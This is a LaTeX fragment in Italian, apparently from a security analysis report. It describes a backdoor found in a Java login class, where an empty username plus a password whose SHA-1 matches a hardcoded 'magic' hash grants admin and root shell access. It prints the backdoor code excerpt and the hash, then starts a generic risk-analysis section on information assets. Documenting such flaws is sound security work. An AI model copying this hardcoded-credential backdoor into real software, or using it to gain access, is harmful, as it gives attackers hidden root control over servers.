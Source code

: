 \documentclass{article}
\begin{document}
All'interno del codice Java, nella classe relativa al controllo delle credenziali passate come input, vi è un campo privato, statico, e costante di nome \emph{magic}. Questo campo contiene l'hash SHA-1 della parola ``Joshua''. Quando nel form di login viene inserita la password e lo username resta vuoto, viene confrontato lo SHA-1 della parola inserita col campo \emph{magic}. Se il controllo da esito positivo viene fatto il redirect su una pagina contenente un'applet Java che avvia una shell, che connettendosi in SSH con le credenziali di Root, da accesso da super user sulla macchina server.
Riportiamo qui sotto lo spezzone di codice:

\begin{lstlisting}
(...)

private static final String magic="a9a2e8456bf9d58e91fe91cbfe10cad5211216c2";

(...)

if(SHAsum(password.getBytes()).equals(magic) && username.equals("")){
	this.admin=true;
	log.aclog("backdoor user", 0);
	adminAccess();
	return;
}

(...)
\end{lstlisting}




\section{Analisi del Rischio e Misure di Sicurezza}

\subsection{Information Assets}
Un ``information asset'' è un corpo di informazioni, definito e gestito come una singola unità in modo che possa essere compreso, condiviso, protetto e sfruttato efficacemente.
Essi hanno un valore di rischio, contenuto, e ciclo di vita riconoscibile e gestibile.

Un information asset è definito ad un livello di granularità che permette di gestire con facilità gli elementi che lo compongono come una singola unità: troppo ampia e non avrà sufficiente dettaglio, troppo fine e si avranno migliaia di asset.
\end{document}
